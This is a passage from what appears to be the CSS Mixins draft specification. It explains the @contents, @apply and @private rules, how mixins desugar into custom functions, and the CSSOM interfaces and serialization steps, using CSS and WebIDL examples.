> will produce a `linear-gradient(red, green, blue)` value, taking `--color-1` from the outside (since nothing overrides it), `--color2` from the mixin parameter (overriding the value from the element), and `--color3` from the private property in the mixin body (overriding both the value from the element and the mixin parameter of that name).

> **Example:** Because they’re built on private properties, mixin parameters share the same potentially confusing weakness: all mentions of the private property name in the mixin body are rewritten to a unique private name, but the *value* is only visible to the applying element and its descendants. Using a nested rule with a selector that selects non-descendants, like `& + *` which grabs the element’s following sibling, can style elements that won’t actually see the passed argument value. For example, in the following code:
>
> ```css
> @mixin --only-descs(--arg) {
>   color: var(--arg);
>   & + * { color: var(--arg, red); }
> }
> .foo {
>   @apply --only-descs(green);
> }
> ```
>
> The `.foo` element will get `color: green`, from the passed argument value, but its following sibling will get `color: red`, as it doesn’t see the private property value and instead triggers fallback.
>
> Make sure, if you’re styling non-descendants in a mixin, not to rely on any mixin parameters in those styles.
>
> > **Note:** Even if the same mixin is applied on a parent and a child, each application of the mixin creates a unique set of styles with their own private properties, so the child’s sibling won’t see the parent’s `--arg` private property.

#### 5.3.  The **@contents** Rule {#css-mixins-1:contents-rule}

In addition to accepting arguments passed by the `<dashed-function>` in the `@apply` rule, a mixin can accept a **contents block**. Any mixin can be passed a contents block, by giving the `@apply` rule invoking the mixin a block.

This allows the invoker of the mixin to pass an entire style block, which the mixin can then substitute into itself. This is useful, for example, if the mixin handles some common conditions for the author, and substitutes the contents block into a predefined `@media` or `@container` rule.

The syntax of a `@contents` at-rule is:

```css
<@contents> = @contents [ { <declaration-list> } ]?
```

That is, it is either an *empty* statement ended immediately by a semicolon, or a **fallback block** treated as a nested declarations rule. The empty statement form behaves identically to passing an empty block.

- If the `@apply` rule invoking the mixin passed a contents block, the `@contents` is replaced with the contents block, treating it as a nested declarations rule.
- Otherwise (if the `@apply` rule did not pass a contents block), the `@contents` rule is replaced with its fallback block, treating it as a nested declarations rule.

Outside of a mixin body, the `@contents` rule is invalid and ignored.

> **Note:** It’s valid for an `@apply` rule to pass a contents block, but the mixin not use it.

> **Example:** For example, the following mixins abstracts the cases that the page would consider to be appropriate for a "single column" layout, allowing the rest of the page to handle the case without worrying about the details, so the conditions can be adjusted in the future if necessary:
>
> ```
> @mixin --one-column() {
>   @media (width <= 800px) {
>     @contents;
>   }
> }
> @mixin --two-column() {
>   @media (width > 800px) {
>     @contents;
>   }
> }
> body {
>   @apply --one-column {
>     display: flex;
>     flex-flow: column;
>   }
>   @apply --two-column {
>     display: grid;
>     grid-template-columns: 60px 60px;
>   }
> }
> ```

#### 5.4.  The **@apply** Rule {#css-mixins-1:apply-rule}

The `@apply` rule applies a mixin, causing it to substitute into the rule in place of the `@apply` rule itself.

Its grammar is:

```css
<@apply> = @apply [ <dashed-ident> | <dashed-function> ] [ { <declaration-list> } ]?;
```

The `@apply` `<dashed-function>` syntax has the same whitespace-trimming behavior as custom functions, and the same treatment of a final trailing comma.

> **Example:** For example, a mixin can be applied in any of these ways:
>
> ```
> .foo {
>   @apply --one;
>   /* Invokes the --one mixin, with no arguments or contents. */
>
>   @apply --two(blue);
>   /* Invokes --two with one argument, and no contents. */
>
>   @apply --three {color: red;}
>   /* Invokes --three with no arguments, but with contents. */
>
>   @apply --four(blue) {color: red;}
>   /* Invokes --four with both an argument and contents. */
> }
> ```

The `@apply` rule is only valid in the body of a style rule or nested group rule; using it in any other context causes it to be invalid and ignored.

`@apply` rules are processed *before* any styles are applied, as they effectively modify the stylesheet itself. (Similar, in effect, to how conditional group rules adjust which properties and rules are active in a stylesheet before styles are applied.)

The `@apply` rule applies the mixin named by the `<dashed-ident>` or the `<dashed-function>`’s name. If no such mixin exists, the `@apply` does nothing.

If passed a `<dashed-function>`, the arguments passed to the <dashed-function> are mapped to the mixin’s arguments; if more arguments are passed than the length of the mixin’s argument list, the `@apply` application does nothing. (Passing too few arguments is fine; the missing arguments take their default values instead.) A `<dashed-ident>` passes no arguments. (That is, `@apply --foo;` is identical to `@apply --foo();`.)

If the `@apply` rule has a `<declaration-list>` block, that block is passed as the mixin’s contents block.

> **Example:** Applying a mixin without arguments, or with an empty argument list, is identical. That is, these two invocations do exactly the same thing:
>
> ```
> .foo {
>   @apply --no-args;
> }
> .bar {
>   @apply --no-args();
> }
> ```
>
> Passing a contents block is *not* the same; omitting the block entirely triggers `@contents` fallback, while passing an empty block will substitute the empty block:
>
> ```
> @mixin --just-contents() {
>   @contents { color: red; }
>   /* `color: red` is the fallback content */
> }
>
> .foo {
>   @apply --just-contents;
>   /* fallback, substitutes with `color: red;` */
> }
> .bar {
>   @apply --just-contents {};
>   /* substitutes with nothing at all */
> }
> ```

#### 5.5. Evaluating Mixins {#css-mixins-1:evaluating-mixins}

> **Issue:** TODO rewrite to use the new `@private` concepts.

At a high level, mixins are applied by substituting their contents at the location they’re `@apply`'d.

Unfortunately, the exact mechanics of mixin substitution are somewhat more complicated, to ensure that local references, variables, and other concepts work in a "natural" way.

When a mixin is applied, the `@apply` rule referencing it is replaced with the mixin result, with each property value in the mixin result having its value replaced by an anonymous custom function with the following properties:

- The function parameters are identical to the mixin parameters. (The function’s invocation has some adjustments; see below.)
- The function body is identical to the mixin body, minus any `@result` rules, plus a `result` descriptor containing the original value of the property this anonymous function is replacing.

Additionally, the arguments passed to the mixin are evaluated and stored on the `@apply`'d element, to ensure they obtain the "expected" value from that element, rather than unexpectedly evaluating in a descendant element’s context:

- For every mixin parameter, a custom property is added to the top level of the mixin result, with a hygienic name and a value of the corresponding `@apply()` argument. This custom property is *unobservable* to the page; it only exists for UA purposes.

  Also, a custom property registration with that name, a syntax of the parameter type, an inherit flag of "true", and no initial value, is added to the tree of that element.
- Each anonymous function invocation has its arguments set to `var()` functions referring to the corresponding custom property name created in the previous bullet point.

> **Example:** For example, given the following mixin:
>
> ```
> @mixin --same-size(--size <length>) {
>   @result {
>     &, & > * {
>       width: calc(10 * var(--size));
>     }
>   }
> }
> .parent {
>   font-size: 10px;
>   @apply --same-size(1em);
> }
> .parent > .child {
>   font-size: 20px;
> }
> ```
>
> This will desugar into approximately:
>
> ```
> @property --magic-arg1 {
>   syntax: "<length>";
>   inherits: true;
>   /* initial-value: don't worry about it; */
> }
> @function --anonfunc1(--arg1) {
>   result: calc(10 * var(--arg1));
> }
> @function --anonfunc2(--arg1) {
>   result: calc(10 * var(--arg1));
> }
> .parent {
>   font-size: 10px;
>   --magic-arg1: 1em; /* resolves based on font-size here */
>   width: --anonfunc1(var(--magic-arg1));
> }
> .parent > .child {
>   font-size: 20px;
>   width: --anonfunc2(var(--magic-arg1));
>   /* --magic-arg1 is 10px, since it was resolved on the parent */
> }
> ```

> **Note:** In practice, this anonymous custom function can usually be completely hypothetical, and a direct substitution used instead. It’s required only to make variables and other element-relative values resolve correctly.

> **Example:** When mixins are nested (one invoked via `@apply` inside the `@result` of another), the desugaring nests as well, in the obvious way. For example:
>
> ```
> div {
>   @apply --colorized-squish(tomato);
> }
>
> /* "wraps" an element in colored arrows */
> @mixin --squish(--left-color <color>,
>                 --right-color <color>: var(--left-color)) {
>   @result {
>     &::before {
>       content: "🡆";
>       background-color: var(--left-color);
>     }
>     &::after {
>       content: "🡄";
>       background-color: var(--right-color);
>     }
>   }
> }
>
> /* colors the element, and auto-generates a border color
>    and the "squish" colors from it */
> @mixin --colorized-squish(--color <color>) {
>   @result {
>     background-color: var(--color);
>     border: 2px solid oklch(from var(--color) calc(l - 0.1) c h);
>     @apply --squish(oklch(from var(--color) calc(l - 0.3) c h),
>                     oklch(from var(--color) calc(l - 0.2) c h));
>   }
> }
> ```
>
> This desugars in two steps, inside-out. First, the `--squish()` is unfolded into the `--colorized-squish()` mixin:
>
> ```
> div {
>   @apply --colorized-squish(tomato);
> }
>
> @mixin --colorized-squish(--color <color>) {
>   /* Lift the `@apply squish();` arguments out into local vars */
>   --s-arg1: oklch(from var(--color) calc(l - 0.3) c h);
>   --s-arg2: oklch(from var(--color) calc(l - 0.2) c h);
>   @result {
>     background-color: var(--color);
>     border: 2px solid oklch(from var(--color) calc(l - 0.1) c h);
>     /* Replace the `@apply --squish();` with its @result,
>        transformed to wrap the property values in
>        anonymous functions. */
>     &::before {
>       content: --s1(var(--s-arg1), var(--s-arg2));
>       background-color: --s2(var(--s-arg1), var(--s-arg2));
>     }
>     &::after {
>       content: --s3(var(--s-arg1), var(--s-arg2));
>       background-color: --s4(var(--s-arg1), var(--s-arg2));
>     }
>   }
> }
> @function --s1(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: "🡆";
> }
> @function --s2(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: var(--left-color);
> }
> @function --s3(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: "🡄";
> }
> @function --s4(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: var(--right-color);
> }
> ```
>
> Then the `--colorized-squish()` mixin is unfolded into the `div` rule:
>
> ```
> div {
>   /* Lift the `@apply --colorized-squish();` argument out into a var */
>   --cs-arg1: tomato;
>   /* Replace the `@apply --colorized-squish();` with (part of)
>      its @result, again with values wrapped in anonymous functions. */
>   background-color: --cs1(var(--cs-arg1));
>   border: --cs2(var(--cs-arg1));
>   &::before {
>     /* Note that --cs-arg1 is inherited here from div */
>     content: --cs3(var(--cs-arg1));
>     background-color: --cs4(var(--cs-arg1));
>   }
>   &::after {
>     content: --cs5(var(--cs-arg1));
>     background-color: --cs6(var(--cs-arg1));
>   }
> }
> @function --cs1(--color <color>) {
>   result: var(--color);
> }
> @function --cs2(--color <color>) {
>   result: 2px solid oklch(from var(--color) calc(l - 0.1) c h);
> }
>
> /* These four generated functions all look identical, they
>    just call into the correct generated function from
>    --squish()'s unfolding. */
> @function --cs3(--color <color>) {
>   /* The --colorized-squish() local vars (created by the
>     first desugaring) are turned into function local vars. */
>   --s-arg1: oklch(from var(--color) calc(l - 0.3) c h);
>   --s-arg2: oklch(from var(--color) calc(l - 0.2) c h);
>   result: --s1(var(--s-arg1), var(--s-arg2));
> }
> @function --cs4(--color <color>) {
>   --s-arg1: oklch(from var(--color) calc(l - 0.3) c h);
>   --s-arg2: oklch(from var(--color) calc(l - 0.2) c h);
>   result: --s2(var(--s-arg1), var(--s-arg2));
> }
> @function --cs5(--color <color>) {
>   --s-arg1: oklch(from var(--color) calc(l - 0.3) c h);
>   --s-arg2: oklch(from var(--color) calc(l - 0.2) c h);
>   result: --s3(var(--s-arg1), var(--s-arg2));
> }
> @function --cs6(--color <color>) {
>   --s-arg1: oklch(from var(--color) calc(l - 0.3) c h);
>   --s-arg2: oklch(from var(--color) calc(l - 0.2) c h);
>   result: --s4(var(--s-arg1), var(--s-arg2));
> }
>
> /* These are copied from the previous desugaring */
> @function --s1(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: "🡆";
> }
> @function --s2(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: var(--left-color);
> }
> @function --s3(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: "🡄";
> }
> @function --s4(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: var(--right-color);
> }
> ```
>
> Note that all the custom property and function names are given short, somewhat meaningful names here, for readability, but actually are hygienically renamed and guaranteed to be unreferencable by author code. Only the user agent ever sees or can use them, to do this desugaring.
>
> Desugaring outside-in
>
> Equivalently, the mixins can be desugared outside-in, for the same result:
>
> ```
> /* Initial Code, same as main example */
> div {
>   @apply --colorized-squish(tomato);
> }
>
> /* "wraps" an element in colored arrows */
> @mixin --squish(--left-color <color>,
>                 --right-color <color>: var(--left-color)) {
>   @result {
>     &::before {
>       content: "🡆";
>       background-color: var(--left-color);
>     }
>     &::after {
>       content: "🡄";
>       background-color: var(--right-color);
>     }
>   }
> }
>
> /* colors the element, and auto-generates a border color
>    and the "squish" colors from it */
> @mixin --colorized-squish(--color <color>) {
>   @result {
>     background-color: var(--color);
>     border: 2px solid oklch(from var(--color) calc(l - 0.1) c h);
>     @apply --squish(oklch(from var(--color) calc(l - 0.3) c h),
>                     oklch(from var(--color) calc(l - 0.2) c h));
>   }
> }
>
>
> /* First desugar, unfolding --colorized-squish()*/
>
> div {
>   /* Pull out the --colorized-squish() argument */
>   --cs-arg1: tomato;
>   /* Swap the @apply with the --colorized-squish() @result,
>      with values wrapped in anonymous functions. */
>   background-color: --cs1(var(--cs-arg1));
>   border: --cs2(var(--cs-arg1));
>   /* The equivalent transform here is wrapping the
>      @apply args in anonymous functions. */
>   @apply --squish(--cs3(--cs-arg1),
>                 --cs4(--cs-arg1));
> }
> @function --cs1(--color <color>) {
>   result: var(--color);
> }
> @function --cs2(--color <color>) {
>   result: 2px solid oklch(from var(--color) calc(l - 0.1) c h);
> }
> @function --cs3(--color <color>) {
>   result: oklch(from var(--color) calc(l - 0.3) c h);
> }
> @function --cs4(--color <color>) {
>   result: oklch(from var(--color) calc(l - 0.2) c h);
> }
> @mixin --squish(--left-color <color>,
>                 --right-color <color>: var(--left-color)) {
>   @result {
>     &::before {
>       content: "🡆";
>       background-color: var(--left-color);
>     }
>     &::after {
>       content: "🡄";
>       background-color: var(--right-color);
>     }
>   }
> }
>
>
> /* Second desugar, unfolding --squish() */
> div {
>   --cs-arg1: tomato;
>   background-color: --cs1(var(--cs-arg1));
>   border: --cs1(var(--cs-arg1));
>   /* Pull out the --squish() args now. */
>   --s-arg1: --cs3(--cs-arg1);
>   --s-arg2: --cs4(--cs-arg1);
>   /* And swap the @apply with the --squish() @result,
>      with values wrapped in anonymous functions. */
>   &::before {
>     content: --s1(var(--s-arg1), var(--s-arg2));
>     background-color: --s2(var(--s-arg1), var(--s-arg2));
>   }
>   &::after {
>     content: --s3(var(--s-arg1), var(--s-arg2));
>     background-color: --s4(var(--s-arg1), var(--s-arg2));
>   }
> }
> @function --cs1(--color <color>) {
>   result: var(--color);
> }
> @function --cs2(--color <color>) {
>   result: 2px solid oklch(from var(--color) calc(l - 0.1) c h);
> }
> @function --cs3(--color <color>) {
>   result: oklch(from var(--color) calc(l - 0.3) c h);
> }
> @function --cs4(--color <color>) {
>   result: oklch(from var(--color) calc(l - 0.2) c h);
> }
> @function --s1(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: "🡆";
> }
> @function --s2(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: var(--left-color);
> }
> @function --s3(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: "🡄";
> }
> @function --s4(--left-color <color>,
>                --right-color <color>: var(--left-color)) {
>   result: var(--right-color);
> }
> ```
>
> The desugaring is slightly different in details, like the --s-arg1/2 custom properties are stored on `div` rather than inside of the functions, but because they’re unobservable and hygienically renamed, the behavior is identical.

### 6.  Private Custom Properties: the `@private` rule {#css-mixins-1:private}

"Temporary variables" are a common tool in programming languages, letting one give a name to an intermediate result, then use that name in another value to make it easier to read. One *can* use custom properties for this purpose, but they’re automatically exposed to descendant elements on the page, and might clash with existing custom properties used on the element, requiring some degree of coordination between otherwise-independent usages. Mixins make this problem even worse, since its mixin parameters are exposed as custom properties for the applying element and its descendants to use.

To address these use-cases, the `@private` rule can be nested inside of any style rule, and defines private properties: a special kind of custom property which is only usable inside the same style rule (and any nested style rules).

```css
<@private> = @private { <declaration-rule-list> }
```

The `@private` rule is only valid nested as a child of a style rule or a nested group rule. In any other context, it is invalid.

A `@private` rule can only contain custom properties, nested group rules (in which case it passes this same restriction to *their* contents), and `@property` rules (see [§ 6.1 Registering Private Properties](#css-mixins-1:private-reg)). Any other contents are invalid and will be ignored, but do not invalidate the `@private` rule itself.

When a style rule contains any `@private` rules (including those nested in nested group rules), the set of custom properties they contain define the style rule’s **private property names**, a set of custom property names. Within the style rule (and any nested rules), any custom property with that name is actually a private property, and any reference to a custom property of that name (for example, with a `var()`) is a reference to the private property.

A **private property** is a special variant of a custom property:

- It is considered to be a different property from any non-private custom property, even if they share the same name.
- Two private properties with the same name are considered the same property if and only if they have the same nearest style rule ancestor that has their name in its private property names.
- It is not exposed to the page via any CSSOM APIs. (For example, `CSSStyleDeclaration`.`getPropertyValue()` can’t get its value, the `CSSStyleDeclaration` enumeration won’t contain them, etc.) It is only accessible to styles in the same style rule that defined them, or its nested rules.

Distinct private properties with the same name are, for all intents and purposes, separate properties. They can exist together on a single element at the same time, carry their own distinct values, etc.

> **Note:** Because private properties are different from same-named custom properties, custom property registrations do not normally apply to them. (They apply to the non-private custom property, instead.) In some cases, such as mixin parameters, CSS can still give them a custom property registration. A `@property` rule can also be used *directly inside* of a `@private` rule, creating a custom property registration that applies to that private property; see [§ 6.1 Registering Private Properties](#css-mixins-1:private-reg).

Applying a mixin with `@apply` effectively substitutes the mixin in-place, so a mixin sees any private properties visible to the style rule it’s substituted into (if it doesn’t override them with its own mixin parameters or private properties).

> **Issue:** What about custom functions? If they refer to a custom property not defined in the function, should they see an outer private property? I’m inclined to say yes; extracting some styles to a custom function should, generally, act identically to inlining them.

> **Example:** For example, in the following styles, every style rule is referring to the same custom property:
>
> ```
> section {
>   --size: 2px;
>   &, & > *, & > * > * {
>     border-width: var(--size);
>   }
> }
> section > h1 {
>   --size: 4px;
> }
> section > h1 > small {
>   --size: 3px;
> }
> ```
>
> As a result, the elements will have three different `border-width`s.
>
> If we changed that to use a private property in the first rule, however:
>
> ```
> section {
>   @private { --size: 2px; }
>   &, & > *, & > * > * {
>     border-width: var(--size);
>   }
> }
> section > h1 {
>   --size: 4px;
> }
> section > h1 > small {
>   --size: 3px;
> }
> ```
>
> Within the first `section` rule and its nested rules, `--size` is a private property, and the `var(--size)` refers to the private property. In the later, non-nested rules, `--size` is a normal custom property, independent of the private property from the first rule, so setting it to other values won’t affect the first usage. Instead, it’s roughly equivalent to:
>
> ```
> section {
>   --f7bd60b7: 2px;
>   border-width: var(--f7bd60b7);
> }
> section > h1 {
>   --size: 4px;
>   border-width: var(--f7bd60b7);
> }
> section > h1 > small {
>   --size: 3px;
>   border-width: var(--f7bd60b7);
> }
> ```
>
> All three elements end up with identical `border-width` values of `2px`.

> **Note:** While private properties ensure that elements and their descendants can’t accidentally have their variables overwritten by accidental collisions, they’re still evaluated as normal for properties, which can interact with other properties set in other style rules.

> **Example:** For example, in the following variant of the previous example:
>
> ```
> section {
>   font-size: 10px;
>   @private { --size: .2em; }
>   &, & > *, & > * > * {
>     border-width: var(--size);
>   }
> }
> section > h1 {
>   font-size: 20px;
> }
> section > h1 > small {
>   font-size: 15px;
> }
> ```
>
> The styles are roughly equivalent to:
>
> ```
> section {
>   font-size: 10px;
>   border-width: .2em;
> }
> section > h1 {
>   font-size: 20px;
>   border-width: .2em;
> }
> section > h1 > small {
>   font-size: 15px;
>   border-width: .2em;
> }
> ```
>
> Which will give three different `border-width` values: `2px`, `4px`, and `3px`.

> **Note:** Because private properties generally can’t be registered custom properties, if you *did* want the preceding example to resolve the `em` length against the `section` element, you can’t get that behavior by default.
>
> This can be resolved with a custom function, and might be addressed more directly in CSS in the future:
>
> ```
> @function --as-length(--x <length>) { result: var(--x); }
> section {
>   font-size: 10px;
>   @private { --size: --as-length(.2em); }
>   &, & > *, & > * > * {
>     border-width: var(--size);
>   }
> }
> section > h1 {
>   font-size: 20px;
> }
> section > h1 > small {
>   font-size: 15px;
> }
> ```
>
> Here, because the custom function argument has type `<length>`, it computes the `.2em` value against the element’s `font-size`, returning `2px`. This then inherits as the `px` value to its descendants, and is unaffected by changes in `font-size`.

> **Example:** Many of the example above work identically with mixins, since mixin parameters define private properties. Notably, whether a mixin parameter is typed or untyped can change its visible behavior in the same ways as the previous examples illustrated. Given the following two nearly-identical mixins:
>
> ```css
> @mixin --untyped(--size) {
>   &, & > *, & > * > * {
>     border-width: var(--size);
>   }
> }
> @mixin --typed(--size <length>) {
>   &, & > *, & > * > * {
>     border-width: var(--size);
>   }
> }
> ```
>
> Then, in the following examples we get various behaviors:
>
> ```css
> section {
>   @apply --untyped(2px);
> }
> section > h1 {
>   --size: 4px;
> }
> section > h1 > small {
>   --size: 3px;
> }
> ```
>
> In this example, the `--size` custom properties are distinct from the `--size` private property defined by the mixin parameter, so all three elements share a `2px` `border-width`.
>
> ```css
> section {
>   font-size: 10px;
>   @apply --untyped(.2em);
> }
> section > h1 {
>   font-size: 20px;
> }
> section > h1 > small {
>   font-size: 15px;
> }
> ```
>
> In this example, the `.2em` is left unresolved in the mixin parameter, so every element gets its own `border-width: .2em` value, resolving to three different lengths based on each element’s `font-size`.
>
> ```css
> section {
>   font-size: 10px;
>   @apply --typed(.2em);
> }
> section > h1 {
>   font-size: 20px;
> }
> section > h1 > small {
>   font-size: 15px;
> }
> ```
>
> In this example, because the mixin parameter is typed as `<length>`, it resolves the `.2em` to `2px` on the applying element, and all three elements share a `2px` `border-width`.

#### 6.1. Registering Private Properties {#css-mixins-1:private-reg}

Just like normal custom properties, private properties are, by default, unregistered: they accept any syntax, do not interpret their values in any way, automatically inherit, etc.

Also like normal custom properties, private properties can become registered custom properties via the `@property` rule. While global property registrations do not apply to private properties, a `@property` rule inside of a `@private` rule *does*.

A `@property` rule inside of a `@private` rule defines a private property name for the parent style rule, just like using the private property normally does. Its custom property registration only applies to that private property, not any other of the same name.

> **Example:** For example, in the following mixin, both `--one` and `--two` are registered as `<color>` properties, one as an argument and one explicitly with a `@property` rule:
>
> ```
> @mixin --colors(--one <color>) {
>   @private {
>     @property --two <color>: blue;
>     /* Using the shorthand @property form.
>        "blue" is the initial value, but if
>        nothing overrides it, that's basically
>        identical to just setting
>        --two: blue;
>     */
>     --three: green;
>     /* not registered, so this is just a keyword */
>   }
>   --one: 1;   /* invalid, since --one is a <color> /*
>   --two: 2;   /* ditto for --two */
>   --three: 3; /* this is valid! */
> }
> ```

### 7. CSSOM {#css-mixins-1:cssom}

> **Issue:** TODO Supply the OM for `@mixin`/etc.

#### 7.1. The `CSSFunctionRule` Interface {#css-mixins-1:the-function-interface}

The `CSSFunctionRule` interface represents a `@function` rule.

```webidl
[Exposed=Window]
interface CSSFunctionRule : CSSGroupingRule {
  readonly attribute CSSOMString name;
  sequence<FunctionParameter> getParameters();
  readonly attribute CSSOMString returnType;
};
```

****`name`**,  of type CSSOMString, readonly**

: The name of the custom function.

****`returnType`**,  of type CSSOMString, readonly**

: The return type of the custom function, represented as a [syntax string](https://drafts.css-houdini.org/css-properties-values-api-1/#syntax-strings). If the custom function has no return type, returns `"*"`.

```webidl
dictionary FunctionParameter {
  required CSSOMString name;
  required CSSOMString type;
  CSSOMString defaultValue;
};
```

**name**

: The name of the function parameter.

**type**

: The type of the function parameter, represented as a [syntax string](https://drafts.css-houdini.org/css-properties-values-api-1/#syntax-strings), or `"*"` if the parameter has no type.

**defaultValue**

: The default value of the function parameter, or `null` if the argument does not have a default.

While declarations may be specified directly within a `@function` rule, they are not represented as such in the CSSOM. Instead, consecutive segments of declarations appear as if wrapped in `CSSFunctionDeclarations` rules.

> **Note:** This also applies to the "leading" declarations in the `@function` rule, i.e those that do not follow another nested rule.

> **Example:** ```css
> @function --bar() {
>   --x: 42;
>   result: var(--y);
>   @media (width > 1000px) {
>     /* ... */
>   }
>   --y: var(--x);
> }
> ```
>
> The above will appear in the CSSOM as:
>
> ```css
> @function --bar() {
>   /* CSSFunctionDeclarations { */
>     --x: 42;
>     result: var(--y);
>   /* } */
>   @media (width > 1000px) {
>     /* ... */
>   }
>   /* CSSFunctionDeclarations { */
>     --y: var(--x);
>   /* } */
> }
> ```

To **serialize a CSSFunctionRule**, return the concatenation of the following:

1. The string `"@function"` followed by a single SPACE (U+0020).
2. The result of performing serialize an identifier on the name of the custom function, followed by a single LEFT PARENTHESIS (U+0028).
3. The result of serialize a function parameter on each of the custom function’s parameters, all joined by `", "` (COMMA U+002C, followed by a single SPACE U+0020).
4. A single RIGHT PARENTHESIS (U+0029).
5. If the custom function has return type, and that return type is not the universal syntax definition ("*"):

  - A single SPACE (U+0020), followed by the string `"returns"`, followed by a single SPACE (U+0020).
  - The result of performing serialize a CSS type on that type.
6. A single SPACE (U+0020), followed by a LEFT CURLY BRACKET (U+007B).
7. The result of performing serialize a CSS rule on each rule in cssRules, filtering out empty strings, each preceded by a single SPACE (U+0020).

   > **Note:** Serialize a CSS rule can return an empty string when serializing an empty `CSSFunctionDeclarations` rule.
8. A single SPACE (U+0020), followed by a single RIGHT CURLY BRACKET (U+007D).

To **serialize a function parameter**, return the concatenation of the following:

1. The result of performing serialize an identifier on the name of the function parameter.
2. If the function parameter has a type, and that type is not the universal syntax definition:

  - A single SPACE (U+0020), followed by the result of performing serialize a CSS type on that type.
3. If the function parameter has a default value:

  - A single COLON (U+003A), followed by a single SPACE (U+0020), followed by the result of performing serialize a CSS value on that value.

To **serialize a CSS type**, return the concatenation of the following:

1. If the `<css-type>` consists of a single `<syntax-component>`, return the corresponding [syntax string](https://drafts.css-houdini.org/css-properties-values-api-1/#syntax-strings).
2. Otherwise, return the concatenation of the following:

  - The string `"type("`, i.e. `"type"` followed by a single LEFT PARENTHESIS (U+0028).
  - The corresponding [syntax string](https://drafts.css-houdini.org/css-properties-values-api-1/#syntax-strings).
  - The string `")"`, i.e. a single RIGHT PARENTHESIS (U+0029).

#### 7.2. The `CSSFunctionDeclarations` Interface {#css-mixins-1:the-function-declarations-interface}

The `CSSFunctionDeclarations` interface represents a run of consecutive declarations within a `@function` rule.

```webidl
[Exposed=Window]
interface CSSFunctionDescriptors : CSSStyleDeclaration {
  attribute [LegacyNullToEmptyString] CSSOMString result;
};

[Exposed=Window]
interface CSSFunctionDeclarations : CSSRule {
  [SameObject, PutForwards=cssText] readonly attribute CSSFunctionDescriptors style;
};
```

The **`style`** attribute must return a `CSSFunctionDescriptors` object for the rule, with the following properties:

**computed flag**

: Unset

**readonly flag**

: Unset

**declarations**

: The declared declarations in the rule, in specified order. This includes any local variables.

**parent CSS rule**

: this

**owner node**

: Null

The `CSSFunctionDeclarations` rule, like `CSSNestedDeclarations`, serializes as if its declaration block had been serialized directly.

#### 7.3. The `CSSMixinRule` Interface {#css-mixins-1:the-mixin-interface}

The `CSSMixinRule` interface represents a `@mixin` rule.

```webidl
[Exposed=Window]
interface CSSMixinRule : CSSGroupingRule {
  readonly attribute CSSOMString name;
  sequence<FunctionParameter> getParameters();
  readonly attribute boolean contents;
};
```

****`name`**,  of type CSSOMString, readonly**

: The result of serialize an identifier on the mixin’s name.

****`getParameters()`****

: Returns function parameters associated with the mixin, excluding any '@contents' parameter.

****`contents`**,  of type boolean, readonly**

: True if the mixin accepts a contents block, and false otherwise.

While declarations may be specified directly within a `@mixin` rule, they are not represented as such in the CSSOM. Instead, consecutive segments of declarations appear as if wrapped in `CSSNestedDeclarations` rules.

> **Note:** This is similar to [how segments of bare declarations within '@function' are wrapped](#css-mixins-1:function-declarations-example), except with `CSSNestedDeclarations` as the wrapper rather than `CSSFunctionDeclarations`.

To **serialize a CSSMixinRule**, return the concatenation of the following:

1. The string `"@mixin"` followed by a single SPACE (U+0020).
2. The result of performing serialize an identifier on the name of the mixin.
3. If the mixin has at least one parameter:

  1. A single LEFT PARENTHESIS (U+0028).
  2. The result of serialize a function parameter on each of the mixin’s parameters, all joined by `", "` (COMMA U+002C, followed by a single SPACE U+0020).
  3. A single RIGHT PARENTHESIS (U+0029).
4. A single LEFT CURLY BRACKET (U+007B), followed by a SPACE (U+0020).
5. The result of performing serialize a CSS rule on each rule in cssRules, filtering out empty strings, all joined by a single SPACE (U+0020).
6. A single SPACE (U+0020), followed by a single RIGHT CURLY BRACKET (U+007D).

#### 7.4. The `CSSApplyBlockRule` Interface {#css-mixins-1:the-apply-block-interface}

The `CSSApplyBlockRule` interface represents an `@apply` rule with a contents block.

```webidl
[Exposed=Window]
interface CSSApplyBlockRule : CSSGroupingRule {
  readonly attribute CSSOMString name;
  sequence<CSSOMString> getArguments();
};
```

****`name`**,  of type CSSOMString, readonly**

: If the `@apply` rule has an associated `<dashed-ident>`, the result of serialize an identifier on that ident. Otherwise, the result of serialize an identifier on the name of the associated `<dashed-function>`.

****`getArguments()`****

: Returns a sequence of arguments as strings, each item [serialized](#css-variables-2:serializing-custom-props) as if it had been the specified value of a custom property.

The child CSS rules of a `CSSApplyBlockRule` represent the contents block of the `@apply` rule.

As for `CSSMixinRule`, consecutive segments of declarations specified directly within the contents block of an `@apply` rule are represented as `CSSNestedDeclarations`.

To **serialize a CSSApplyBlockRule**, return the concatenation of the following:

1. The string `"@apply"` followed by a single SPACE (U+0020).
2. The result of performing serialize an @apply prelude on the `@apply` rule.
3. A single SPACE (U+0020).
4. A single LEFT CURLY BRACKET (U+007B), followed by a SPACE (U+0020).
5. The result of performing serialize a CSS rule on each rule in cssRules, filtering out empty strings, all joined by a single SPACE (U+0020).
6. A single SPACE (U+0020), followed by a RIGHT CURLY BRACKET (U+007D).

To **serialize an @apply prelude**, given an `@apply` rule, return the concatenation of the following:

1. The `name` of the `@apply` rule.
2. If the `@apply` rule has at least one argument, the concatenation of:

  - A single LEFT PARENTHESIS (U+0028).
  - The result of performing serialize a function argument on each argument, all joined by `", "`.
  - A single RIGHT PARENTHESIS (U+0029).

To **serialize a function argument**, given a `<declaration-value>` *argument*:

1. [Serialize](#css-variables-2:serializing-custom-props) *argument* as if it had been the specified value of a custom property, and let *serialized argument* be the result.

   > **Note:** This means that an argument serializes exactly as written, except with leading and trailing whitespace removed.
2. If *serialized argument* does not contain any top-level `<comma-token>`s, nor any top-level `<{-token>`s, return *serialized argument*.
3. Otherwise, return the concatenation of the following:

  - A single LEFT CURLY BRACKET (U+007B), followed by a SPACE (U+0020).
  - The value of *serialized argument*.
  - A single SPACE (U+0020), followed by a RIGHT CURLY BRACKET (U+007D).

   > **Note:** See [CSS Values 5 § 3.1.1 Commas in Function Arguments](#css-values-5:component-function-commas) for more information on free-form productions.

